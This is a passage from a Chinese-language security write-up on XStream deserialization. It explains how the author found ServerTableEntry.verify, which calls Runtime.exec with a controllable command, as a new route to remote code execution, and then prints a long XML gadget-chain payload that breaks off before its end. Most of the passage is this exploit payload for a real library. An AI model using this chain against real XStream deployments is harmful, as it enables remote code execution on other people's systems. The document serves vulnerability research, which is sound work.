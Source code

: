 ```xml
```

##### 直接RCE

java反序列化除了commons-collections之外，都是通过jndi注入来达到RCE的效果，究其原因，很大部分原因在于执行系统命令的两个类Runtime和ProcessBuilder都没实现序列化接口，无法进行反序列化。但XStream没有这个限制。1.4.15 ProcessBuilder已经被禁止，当前反射的又是无参函数，Runtime.exec无法利用。该如何找新的可利用的类。

寻找方法：在callgraph.dat中搜索Runtime.exec和ProcessBuilder.start

搜索到如下调用链

```
com/sun/corba/se/impl/activation/ServerTableEntry	verify	()I	java/lang/Runtime	exec	(Ljava/lang/String;)Ljava/lang/Process;	0	activationCmd	1
```

查看ServerTableEntry.verify，发现直接执行且命令可控

![image-20210119150017488](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145019-405376.png)

payload如下：

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="com.sun.xml.internal.ws.message.JAXBAttachment">
                                <bridge class="com.sun.xml.internal.ws.db.glassfish.BridgeWrapper">
                                    <bridge class="com.sun.xml.internal.bind.v2.runtime.BridgeImpl">
                                        <bi class="com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl">
                                            <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                                            <uriProperties></uriProperties>
                                            <attributeProperties></attributeProperties>
                                            <inheritedAttWildcard class="com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection">
                                                <getter>
                                                    <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                                                    <name>verify</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName></tagName>
                                        <context>
                                            <marshallerPool class="com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1">
                                                <outer-class reference="../.."/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
```